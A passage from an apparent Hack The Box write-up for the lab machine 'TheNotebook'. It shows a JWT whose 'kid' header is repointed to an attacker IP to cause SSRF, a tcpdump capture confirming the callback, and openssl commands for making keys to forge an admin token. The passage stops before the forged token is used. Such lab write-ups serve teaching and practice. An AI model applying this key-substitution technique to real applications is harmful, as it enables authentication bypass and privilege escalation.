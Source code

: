 The site offered the possibility to register an account so one was created:
![Pasted image 20210430225959.png]({{page.screenshots}}Pasted image 20210430225959.png)
![Pasted image 20210430230117.png]({{page.screenshots}}Pasted image 20210430230117.png)

There were very few entry points, however, the application used **JWT to authenticate** users. Usually **bad implementation of JWT** allows **authentication bypass** or **application privilege escalation**, therefore it is always good to check them:

![Pasted image 20210522153124.png]({{page.screenshots}}Pasted image 20210522153124.png)

Decoding the JWT using [jwt.io](https://jwt.io/) it came up that the **user privileges are contained inside the token** as well as the **path to the private key** used to validate it.
```js
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://localhost:7070/privKey.key"
}
{
  "username": "maoutis",
  "email": "maoutis@hackthebox.htb",
  "admin_cap": 0
}
```

Editing the *kid* field it was possible to **made the server contact a different target**:
```js
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://10.10.14.24:7070/privKey.key"
}
```
```bash
┌──(kali㉿kali)-[~/…/HTB/box/TheNotebook/exploit]
└─$ sudo tcpdump -i tun0 -n port 7070                        
[sudo] password for kali:
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
17:47:46.263302 IP 10.10.10.230.38902 > 10.10.14.24.7070: Flags [S], seq 2910523052, win 64240, options [mss 1357,sackOK,TS val 1904549514 ecr 0,nop,wscale 7], length 0
17:47:46.263348 IP 10.10.14.24.7070 > 10.10.10.230.38902: Flags [R.], seq 0, ack 2910523053, win 0, length 0
```


## Foothold
Due to the **SSRF vulnerability**, the server can be tricked into **using an arbitrary key to validate the token**. This issue can be exploited by making the server **accept an arbitrary token with high privileges**, allowing to authenticate to the application as administrators instead of standard users.

Taking inspiration from the [following Akamai article](https://learn.akamai.com/en-us/webhelp/iot/jwt-access-control/GUID-BD7079F4-09ED-4FAB-A923-4ACFE254BA3E.html), a pair of rsa keys was created:
```bash
┌──(kali㉿kali)-[~/…/box/TheNotebook/exploit/keys]
└─$ openssl rsa -in jwtRS256.key -pubout -outform PEM -out jwtRS256.key.pub
writing RSA key

┌──(kali㉿kali)-[~/…/box/TheNotebook/exploit/keys]
└─$ openssl rsa -in jwtRSA256-private.pem -pubout -outform PEM -out jwtRSA256-public.pem

writing RSA key
```
